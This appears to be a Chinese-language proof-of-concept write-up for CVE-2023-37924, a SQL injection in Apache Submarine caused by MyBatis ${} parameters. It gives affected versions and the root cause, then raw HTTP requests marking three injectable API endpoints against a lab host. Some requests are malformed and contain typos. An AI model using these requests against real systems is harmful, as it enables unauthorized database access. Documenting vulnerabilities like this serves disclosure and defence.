
## Apache-Submarine-SQL注入漏洞CVE-2023-37924
Apache Submarine是一个端到端的机器学习平台，允许数据科学家创建完整的机器学习工作流程，涵盖数据探索、数据管道创建、模型训练、服务以及监控的每个阶段。Apache Submarine存在SQL注入漏洞，由于在SysDeptMapper.xml、SysUserMapper.xml等文件中的SQL语句使用了"$"参数符号，导致用户可控的输入直接拼接到SQL语句中。未授权的攻击者可以通过向/sys/searchSelect等接口发送恶意的keyword参数，从而执行恶意的SQL语句。

## 影响范围
```
0.7.0<=apache-submarine<0.8.0.dev0
```
## 漏洞点
从官方修复得代码来看，主要使用mybatis框架，并写法不规范，${}造成sql注入漏洞
![](./assets/20231123192338.png)


## poc
### api/sys/user/list   userNmae 和  email参数可控
```
GET /api/sys/user/list?column=createTime&order=desc&fieId=id,userName,realName&userNmae=&email= HTTP/1.1
Host: 192.168.108.153:32080
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.5195.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Length: 4
```

### /api/sys/dept/tree
```
GET /api/sys/dept/tree?=likeDeptCode=demoData&likeDeptName=demoData HTTP/1.1
Host: 192.168.108.153:32080
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.5195.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Length: 4
```

### api/sys/dict/list接口
```
GET /api/sys/dict/list?dictCode=demoData&dictName=demoData&column=&field=&order=pageNo=1&pageSize=10 HTTP/1.1
Host: 192.168.108.153:32080
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.5195.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,/;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Length: 4

```

## 漏洞复现
![image](https://github.com/wy876/POC/assets/139549762/904c3929-8590-4a7d-a695-48b0bb1b2832)
![image](https://github.com/wy876/POC/assets/139549762/cdc34528-456b-4c51-ad35-f23d5752152d)

